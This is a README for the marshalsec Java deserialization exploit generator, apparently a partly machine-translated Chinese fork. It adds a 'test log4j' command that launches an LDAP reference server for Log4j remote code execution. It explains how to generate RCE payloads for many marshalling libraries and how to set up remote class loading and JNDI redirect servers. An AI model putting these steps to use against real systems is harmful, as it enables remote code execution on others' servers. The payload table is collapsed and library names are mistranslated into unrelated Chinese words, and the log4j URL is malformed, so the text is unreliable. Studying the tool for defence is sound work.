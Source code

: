 # test log4j
![2L(N)YB)}@E%DNTXQG7J22X](https://user-images.githubusercontent.com/37278360/145526150-5b05157d-5be7-47ff-a9d5-b7713e7a9520.png)

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer  "http:127.0.0.1:8888/#Log4j
RCE"

# Java Unmarshaller Security - 将数据转化为代码执行

## Paper

自从 Chris Frohoff 和 Garbriel Lawrence 展示他们对 Java 对象反序列化漏洞的研究以来，已经两年多了，最终导致了 Java 历史上最大的远程代码执行错误浪潮。
对此事的研究表明，这些漏洞不仅限于像 Java 序列化或 XStream 这样具有表现力的机制，但有些漏洞也可能适用于其他机制。
本文介绍了各种 Java 开源编组库的分析，包括利用细节，这些库允许（编辑）对任意的、攻击者提供的类型进行解组，并表明无论该过程如何执行以及存在哪些隐式约束易于使用类似的开发技术。
Full paper is at [marshalsec.html](marshalsec.html)

## 免责声明

所有信息和代码仅用于教育目的和/或测试您自己的系统是否存在这些漏洞。
## Usage

需要 Java 8。使用 maven ```mvn clean package -DskipTests``` 构建。运行方式
```shell
java -cp target/marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.<Marshaller> [-a] [-v] [-t] [<gadget_type> [<arguments...>]]
```

where

* **-a** - 为该编组器生成测试所有有效载荷.
* **-t** - 在测试模式下运行，在生成它们之后解组生成的有效载荷。
* **-v** - 详细模式，例如还显示了在测试模式下生成的有效载荷。
* **gadget_type** - 特定小工具的标识符，如果省略将显示该特定编组器的可用小工具。
* **arguments** - 小工具特定参数

包括以下编组器的有效载荷生成器：<br>
|马歇尔 |小工具影响 | ------------------------------- | ---------------------------------------------- | BlazeDSAMF(0&124;3&124;X) | JDK 仅升级为 Java 序列化<br>各种第三方库 RCE |粗麻布&124;粗麻布|各种第三方RCE |脚轮 |依赖库RCE |杰克逊 |可能只有 JDK 的 RCE，各种第三方 RCE |爪哇|又一个第三方RCE | JsonIO |仅 JDK RCE | JYAML |仅 JDK RCE |克里奥 |第三方RCE | KryoAltStrategy |仅 JDK RCE | Red5AMF(0&124;3) |仅 JDK RCE | SnakeYAML |仅 JDK RCE | XStream |仅 JDK RCE | YAMLBeans |第三方RCE

## 参数和其他先决条件

### 系统命令执行
* **cmd** - 要执行的命令
* **args...** - 作为参数传递的附加参数

没有先决条件。
### 远程类加载（普通）

* **codebase** - 远程代码库的 URL
* **class** - 要加载的类

**先决条件**:

* 在某个路径下设置托管 Java 类路径的网络服务器。
* 要加载的编译类文件需要根据 Java 类路径约定提供服务。

### 远程类加载（ServiceLoader）

* **服务代码库** - 远程代码库的 URL

要加载的服务当前硬编码为 javax.script.ScriptEngineFactory。

**先决条件**:

* 与普通的远程类加载相同。
* 还需要 <codebase>META-INFjavax.script.ScriptEngineFactory 中的提供程序配置文件，其中包含纯文本形式的目标类名称。
* Target class specified there needs to implement the service interface *javax.script.ScriptEngineFactory*.


### JNDI Reference indirection

* **jndiUrl** - JNDI URL to trigger lookup on


**Prerequisites**:

* Set up a remote codebase, same as remote classloading.
* Run a JNDI reference redirector service pointing to that codebase -
  two implementations are included: *marshalsec.jndi.LDAPRefServer* and *RMIRefServer*.

      ```java -cp target/marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.jndi.(LDAP|RMI)RefServer <codebase>#<class> [<port>]```

* Use (ldap|rmi)://*host*:*port*/obj as the *jndiUrl*, pointing to that service's listening address.

## Running tests

There are a couple of system properties that control the arguments when running tests (through maven or when using **-a**)

* **exploit.codebase**, defaults to *http://localhost:8080/*
* **exploit.codebaseClass**, defaults to *Exploit*
* **exploit.jndiUrl**, defaults to *ldap://localhost:1389/obj*
* **exploit.exec**, defaults to */usr/bin/gedit*

Tests run with a SecurityManager installed that checks for system command execution as well as code executing from remote codebases.
For that to work the loaded class in use must trigger some security manager check.



